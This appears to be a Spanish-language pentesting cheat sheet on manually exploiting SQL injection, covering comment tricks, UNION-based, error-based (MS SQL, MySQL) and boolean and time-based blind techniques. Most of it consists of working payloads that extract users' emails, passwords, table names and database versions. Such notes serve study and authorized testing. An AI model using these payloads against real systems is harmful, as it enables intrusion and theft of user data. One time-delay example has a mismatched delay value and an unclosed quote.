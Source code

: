 # Técnicas manuales y mejores prácticas para explotar inyecciones SQL

* Una buena recomendación a la hora de explotar una vulnerabilidad de inyección SQL es utilizar comentarios, concretamente, para comentar cualquier código SQL que siga al punto de inyección:
  * `#`: el símbolo hash.

    ```sql
    SELECT name, description, price FROM products WHERE status='new' or '1'='1' #' AND taxable = true;
    ```

  * `-- `: dos guiones seguidos de un espacio.

    ```sql
    SELECT name, description, price FROM products WHERE status='new' or '1'='1' -- ' AND taxable = true;
    ```

    Dado que un comentario en sí mismo se compone de dos guiones y un espacio, es una buena práctica agregar un tercer guión al final (es decir, `-- -`) porque la mayoría de navegadores eliminan automáticamente los espacios finales en la URL:

    ```url
    products.php?status=new' or '1'='1'; -- -
    ```

## Inyecciones SQL in-band

* Debido a que en las inyecciones SQL in-band el resultado de la explotación se incluye directamente en la página de respuesta de la aplicación web vulnerable, estos tipos de inyección SQL suelen ser los que requieren el menor esfuerzo para ser explotados.

### Inyecciones SQL basadas en UNION

* Al explotar inyecciones SQL basadas en UNION, el número de campos de la segunda sentencia `SELECT` debe coincidir con el **número de campos** de la primera sentencia (y original), tal y como sucede con carga útil SQL `new' UNION SELECT username, email, password FROM users; -- -` en el siguiente ejemplo:

  ```sql
  SELECT name, description, brand FROM products WHERE status='new' UNION SELECT username, email, password FROM users; -- -' AND taxable = true;
  ```
  
  * Para lograr este cometido sin conocer la cantidad de campos seleccionados originalmente, es posible seleccionar un solo campo e ir aumentando la cantidad de campos hasta que se llegue a construir una consulta válida:

    ```sql
    UNION SELECT NULL; -- -
    ```

    ```sql
    UNION SELECT NULL, NULL; -- -
    ```

    ```sql
    UNION SELECT NULL, NULL, NULL; -- -
    ```

* Dependiendo del DBMS, los **tipos de campos** de la segunda declaración `SELECT` en un contexto `UNION` deben coincidir con los de la primera declaración. Además, hay que tener en cuenta que es posible que algunos campos seleccionados en la consulta SQL no se incluyan en la página de salida, aunque siguen siendo parte de la consulta.
  
  * Para conseguirlo, se puede empezar por sustituir los campos `NULL` por tipos de datos representativos hasta que se construya, de nuevo, una consulta válida:

    ```sql
    UNION SELECT 'a', NULL, NULL; -- -
    ```

    ```sql
    UNION SELECT 'a', 1, NULL; -- -
    ```

    ```sql
    UNION SELECT 'a', 1, 'a'; -- -
    ```

* Se recomienda utilizar el operador `UNION ALL` para evitar el efecto de una eventual cláusula `DISTINCT` en la consulta original de la aplicación web.
* Finalmente, para realizar con éxito la inyección, es necesario encontrar una forma **de conocer o inferir la estructura de la base de datos** en términos de nombres de tablas y columnas.

### Inyecciones SQL basadas en errores

* La finalidad en este caso es forzar al DBMS a mostrar un error que incluya información sensible. Por ejemplo, una simple carga SQL como `new' OR user_name()=1;-- -`, la cual intenta convertir un valor de cadena (es decir, el usuario actual de la base de datos) a entero, podría hacer el trabajo:

  ```sql
  SELECT name, description, brand FROM products WHERE status='new' OR user_name()=1; -- - AND taxable = true;
  ```

* A continuación se muestran algunas cargas útiles para DBMS específicos que tienen como objetivo recuperar la versión de la bases de datos mediante los propios errores.

#### Usando CAST en MS SQL server

* Inyección del payload:

  ```sql
  new' or 1 in (SELECT TOP 1 CAST (@@version as varchar(4096)); -- -
  ```

  Potencial error obtenido en la página de salida:

  ```
  [Microsoft][SQL Server Native Client 10.0][SQL Server] Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (x64) Jun 28 2020 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor)' to data type int.
  ```

* Inyección del payload para obtener el valor del campo `email` del primer registro de la tabla `users` de la base de datos `ecommercedb`:

  ```sql
  new' or 1 in (SELECT TOP 1 CAST (email as varchar(4096)) FROM ecommercedb..users; -- -
  ```

#### Usando concat() y GROUP BY en MySQL

* Inyección del payload:

  ```sql
  new' or 1 in (SELECT count(*), concat(version(),floor(rand(0)*2)) as x FROM information_schema.tables GROUP BY x); -- -
  ```

  Potencial error obtenido en la página de salida:

  ```
  ERROR 1062 (23000): Duplicate entry '5.5.43-0+deb7u11' for key 'group_key'
  ```

* Payload de inyección para obtener todas las tablas de la base de datos `ecommercedb`:

  ```sql
  new' AND (SELECT 1 FROM (SELECT count(*), concat((SELECT distinct(table_name) FROM information_schema.tables WHERE table_schema="ecommercedb" LIMIT 1,1)," - ", FLOOR(RAND(0)*2)) B FROM information_schema.tables GROUP BY B) C) #
  ```
  
* Payload de inyección para obtener el valor del campo `email` del primer registro de la tabla `users` de la base de datos `ecommercedb`:

  ```sql
  cars' AND (SELECT 1 FROM (SELECT count(*), concat((SELECT email FROM ecommercedb.users limit 0,1)," - ", FLOOR(RAND(0)*2)) B FROM information_schema.tables GROUP BY B) C) #
  ```

## Inyecciones SQL inference/blind

* Una diferencia significativa entre las inyecciones SQL in-band/error-based respecto las blind es la cantidad de solicitudes que se deben realizar para estas últimas (y el tiempo requerido en consecuencia).
* Esa es la razón por la que es difícil lograr una explotación manual inyecciones SQL blind. En este sentido, los pentesters tienden a crear sus propios scripts de explotación o bien a utilizar herramientas automatizadas como [sqlmap][1].

### Inyecciones SQL boolean-based

* El objetivo aquí es hacer preguntas `TRUE` o `FALSE` a la base de datos y determinar el resultado en función de la respuesta de la aplicación (por ejemplo, cambia el texto de la página web si la condición es `TRUE` frente a si es `FALSE`).
* Para este propósito, el tipo de preguntas a realizar pueden ser como las siguientes:
  * ¿Para el primer registro de la tabla `Users`, el valor del campo `username` tiene una longitud de 3 caracteres?
    * Si no es así, ¿tiene una longitud de 4? de 5? de 6?
  * Una vez determinada la longitud, ¿Es la primera letra una "a"?
    * Si es cierto, se procede a preguntar por la segunda letra del nombre de usuario.
    * Si es falso, entonces se sigue preguntando por la misma posición pero con la siguiente letra del alfabeto y así sucesivamente hasta que sea cierto.
* A continuación se encuentran algunos payloads para DBMSs específicos que son útiles para realizar este tipo de consultas.

#### Usando length() y ascii() en MySQL

* Intentando averiguar la longitud de un campo:

  ```sql
  ' or (length((SELECT password FROM users WHERE id=1)) > 5 )
  ```

  A modo recordatorio:

  * `length()` devuelve la longitud de la cadena.
  
* Una vez conocida la longitud de un campo, se puede proceder a adivinar la primera letra::

  ```sql
  ' or (ascii(substring((SELECT password FROM users WHERE id=1),1,1)) > 97 )
  ```

  A modo recordatorio:

  * `ascii()` devuelve el valor ASCII de un carácter.

#### Usando user() and substring() en MySQL

* Intentando averiguar la primera letra del nombre del usuario actual de la base de datos:

  ```sql
  ' or substr(user(), 1, 1) = 'a
  ```

  Hasta que la consulta no sea cierta, se continua probando con las sucesivas letras:

  ```sql
  ' or substr(user(), 1, 1) = 'b
  ```

  A modo recordatorio:

  * `user()` devuelve el nombre del usuario actual que utiliza la base de datos.
  * `substring()` devuelve una subcadena del argumento dado. Utiliza tres parámetros: la cadena de entrada, la posición de la subcadena y su longitud.

* Una vez se encuentra la primera letra, se puede pasar a la segunda:

  ```sql
  ' or substr(user(), 2, 1) = 'a
  ```

### Inyecciones SQL blind basadas en tiempo

* En este caso, el tiempo se utiliza para inferir una condición `TRUE` a partir de una condición `FALSE`.
* Seguidamente se encuentran algunas cargas útiles que son prácticas para ciertos DBMS.

#### Usando waitfor en MS SQL

* Si es `TRUE`, el DBMS se retrasará 6 segundos:

  ```sql
  if (SELECT user) = 'ecommerce' waitfor delay '0:0:5
  ```

#### Usando sleep() y benchmarck() en MySQL

* Si es `TRUE`, el DBMS se retrasará 10 segundos:

  ```sql
  select if((SELECT database()="ecommercedb"), sleep(10), null); -- -
  ```

  ```sql
  select if((SELECT version() like "5%"), sleep(10), null); -- -
  ```

* Ejecutará la función MD5(1) 10000000 veces si la cláusula `if` devuelve `TRUE`:

  ```sql
  if exists (SELECT * FROM users WHERE username = 'johndoe') BENCHMARK(10000000, MD5(1))
  ```

[1]: https://sqlmap.org/
